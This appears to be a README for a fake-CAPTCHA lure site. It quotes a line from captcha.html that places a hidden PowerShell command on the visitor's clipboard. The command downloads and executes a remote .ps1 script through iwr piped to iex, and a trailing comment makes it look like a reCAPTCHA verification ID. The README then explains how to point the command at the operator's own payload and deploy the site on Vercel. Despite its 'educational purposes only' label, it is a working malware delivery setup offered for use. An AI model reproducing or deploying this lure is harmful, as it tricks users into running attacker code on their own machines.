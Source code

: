 # Educational Purposes Only

I will not show you how to make the powershell script (as its illegal)




# Go to captcha.html

go to this line:

const commandToCopy = `powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -Command "iwr '${window.location.origin}/2.ps1' -UseBasicParsing | iex # ✔ I am not a robot - reCAPTCHA Verification ID: ${verificationId}

# and replace "${window.location.origin}/2.ps1" 
with your own link with a .ps1 file hosted or keep it the same if the file is hosted on the same domain as the website your on (you can change /2.ps1 with anything (example: /verify) or anything like that (pretty sure it will still work)


# if you want to see what the sites look like
download this [Latest](https://github.com/vxcnnn/Fake-Captcha/archive/refs/heads/main.zip) and open the thing in cmd and type "npm install vercel" and then do "vercel" and set everything up then do "vercel --prod" and go to the link
